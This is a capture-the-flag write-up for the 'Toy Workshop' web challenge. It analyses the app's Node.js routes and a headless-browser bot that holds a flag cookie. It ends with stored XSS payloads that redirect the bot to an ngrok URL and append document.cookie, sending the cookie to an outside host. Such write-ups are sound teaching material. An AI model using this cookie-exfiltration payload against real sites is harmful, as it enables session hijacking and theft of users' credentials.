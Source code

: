 # Toy Workshop

## Challenge Info
```` text
The work is going well on Santa's toy workshop but we lost contact with the manager in charge! 
We suspect the evil elves have taken over the workshop, can you talk to the worker elves and find out?
````
## Challenge Files 
We are provided a .zip file with the application files. 

## Let's go
When opening the given ip:port after clicking on one of the elves an input box opens up where we can leave a message.

Trying follwing inputs will return `Your message is delivered successfully!`

- `hello`
- `"`
- `<script>alert("hello")</script>` 

![message box](img/inputbox.png)


In our Network tab we will see these are handled as `POST` requests that gets submitted to the `/api/submit` endpoint. 


## Given files 
Time to take a look inside the challenge files to learn more about the app and understand its flow.

I always start with the `index` file (`index.js` in this case) and look into the included files one by one.

That leads to the `routes/index.js` where we will find the `POST` handling.

Further our input is added into the database and another function  `bot.readQueries(db)` is called before the known response is send.    


```` js 
--- snip ---
router.post('/api/submit', async (req, res) => {

	const { query } = req.body;
	if(query){
		return db.addQuery(query)
			.then(() => {
				bot.readQueries(db);
				res.send(response('Your message is delivered successfully!'));
			});
	}
	return res.status(403).send(response('Please write your query first!'));
});
--- snip ---
````


Now have a look inside the `bot.js`. 

We see that the flag is stored in a cookie while the app is invoked internally via the node library ``puppeteer`` (which acts as a headless browser) before requesting the `queries` endpoint.  

```` js
const puppeteer = require('puppeteer');

const browser_options = {
	headless: true,
	args: [ --- snip --- ]
 };

const cookies = [{
	'name': 'flag',
	'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'
}];

const readQueries = async (db) => {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		await page.goto('http://127.0.0.1:1337/');
		await page.setCookie(...cookies);
		await page.goto('http://127.0.0.1:1337/queries', {
			waitUntil: 'networkidle2'
		});
		await browser.close();
		await db.migrate();
};
````


Back to `routes/index.js` to understand what this endpoint is about. 

We see that it returns our stored input from the database, but only for requests from `localhost` or `127.0.0.1`.


```` js 
--- snip ---
router.get('/queries', async (req, res, next) => {
	if(req.ip != '127.0.0.1') return res.redirect('/');

	return db.getQueries()
		.then(queries => {
			res.render('queries', { queries });
		})
		.catch(() => res.status(500).send(response('Something went wrong!')));
});
--- snip ---
````

## Obtaining the flag

Two questions arise:

- What do we need to have stored in the database to receive the cookie? 
- How does this information get to us?

We can make ourselves accessible to the WWW with the help of cli tools like `ngrok` or web apps like https://webhook.site.

```` terminal 
$ ngrok 6666

ngrok by @inconshreveable                                                (Ctrl+C to quit) 

Session Status           online  
Session Expires          1 hour, 59 minutes 
Version                  2.3.40  
Region                   United States (us) 
Web Interface            http://127.0.0.1:4040
Forwarding               http://xxxx-xx-xx-xxx-xx.ngrok.io -> http://localhost:6666
Forwarding               https://xxxx-xx-xx-xxx-xx.ngrok.io -> http://localhost:6666
                                                                                                                     
Connections              ttl     opn     rt1     rt5     p50     p90
                         0       0       0.00    0.00    0.00    0.00
````

This gives us a publicly available URL (redacted) and a locally available web interface to see the logged requests. 

Let's see if we get anything back when we make a request to ourselves:

`<script>window.location="http://xxxx-xx-xx-xxx-xx.ngrok.io"</script>`

![message box request 1](img/request2.png)

![ngrok log 1](img/ngrok1.png)

Finally, we try to get the values of the cookie using a self-selected `GET` paramter `cookie` and the JavaScript attribute `document.cookie`

`<script>window.location="http://xxxx-xx-xx-xxx-xx.ngrok.io?cookie="+document.cookie</script>`

![message box request 2](img/request3.png)

![ngrok log 2](img/ngrok2.png)

